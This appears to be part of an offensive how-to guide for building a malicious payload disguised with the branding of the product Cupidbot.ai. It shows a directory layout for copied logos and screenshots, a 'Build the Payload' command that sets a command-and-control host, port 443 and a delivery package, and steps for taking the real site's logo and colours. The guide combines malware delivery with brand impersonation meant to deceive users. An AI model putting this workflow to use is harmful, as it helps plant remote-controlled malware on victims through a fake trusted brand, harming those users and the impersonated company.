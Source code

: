 **Save to:**
```
tools/brand_templates/cupidbot_ofm/
  ├── logos/
  │   ├── logo.png          ← Main logo
  │   ├── logo_white.png    ← White version
  │   └── icon.ico          ← Windows icon
  ├── screenshots/
  │   ├── dashboard.png     ← OFM interface
  │   └── hero.png          ← Homepage
  └── config.json           ← Auto-generated
```

### Step 3: Build the Payload

```bash
# After gathering materials, add to payload_brander.py
# Then build:

python3 tools/payload_brander.py \
  --template cupidbot_ofm \
  --c2-host YOUR_IP \
  --c2-port 443 \
  --delivery-package
```

---

## 📖 Detailed Instructions

### 🔍 Research Phase (30 minutes)

#### 1. Visit Cupidbot.ai Website

**Go to:** https://cupidbot.ai

**What to look for:**

**A. Main Logo**
- Usually in top-left corner
- Right-click → Save image as...
- Save as `logo.png`

**B. Color Palette**

**Method 1: ColorZilla Extension**
```
1. Install ColorZilla (Chrome/Firefox)
2. Click eyedropper icon
3. Click on their brand colors
4. Write down HEX codes

Example output:
  Primary:   #FF1744
  Secondary: #536DFE
  Accent:    #00BFA5
```
